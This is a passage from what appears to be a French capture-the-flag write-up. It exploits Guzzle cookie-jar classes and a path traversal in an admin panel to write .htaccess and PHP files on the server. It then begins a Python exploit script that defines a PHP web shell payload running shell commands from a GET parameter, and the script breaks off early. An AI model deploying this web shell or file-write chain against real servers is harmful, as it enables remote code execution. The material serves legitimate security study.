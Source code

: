 ```php
    public function load(string $filename): void
    {
        $json = \file_get_contents($filename);
        if (false === $json) {
            throw new \RuntimeException("Unable to load file {$filename}");
        }
        if ($json === '') {
            return;
        }

        $data = Utils::jsonDecode($json, true);
        if (\is_array($data)) {
            foreach ($data as $cookie) {
                $this->setCookie(new SetCookie($cookie));
            }
        } elseif (\is_scalar($data) && !empty($data)) {
            throw new \RuntimeException("Invalid cookie file: {$filename}");
        }
    }
}
```

A l'instar de la classe `GuzzleHttp\Cookie\SessionCookieJar` qui nous a permi de créer un attribut dans la variable `$_SESSION`, cette classe nous permet, avec le même comportement, de créer arbitrairement un fichier ou l'on souhaite sur le filesystem.

Il faut donc créer un premier formulaire qui a pour renderer `GuzzleHttp\Cookie\SessionCookieJar` et pour nom `/var/www/html/public/pdf/attack/.htaccess` et aller le visualiser pour créer le fichier.
Ensuite, il faut créer un autre formulaire avec toujours pour renderer `GuzzleHttp\Cookie\SessionCookieJar` mais pour nom `/var/www/html/public/pdf/attack/rce.php`.

### Ecriture des fichiers

Pour écrire dans les deux fichiers que nous venons de créer, il suffit d'abuser de la fonctionnalité dans le panel d'administration en exploitant le path traveral.

### Payload finale

Il est plus pratique d'écrire tout cet exploit dans un script python pour automatiquement exploiter les différentes gadgets que l'on a récupéré :

```py
import requests
import sys
import random
import string
import re
from base64 import b64encode

S = requests.Session()
chall_url = sys.argv[1]
folder_rce = "exploit"
folder_base = f"/var/www/html/public/pdf/{folder_rce}/"
file_rce = "exploit.php"
payload = "<?php var_dump(shell_exec($_GET['c'])); ?>"

def get_csrf_token(path):
    resp = S.get(f"{chall_url}/{path}", cookies=S.cookies.get_dict())
    return re.findall(r'\b\w{40}\b', resp.text)[0]

def get_b64_content():
    return b64encode(('[{"name":"'+''.join(random.choices(string.ascii_uppercase + string.ascii_lowercase, k=5))+'","type":"email","size":"5"}]').encode()).decode()

# Initialize session
```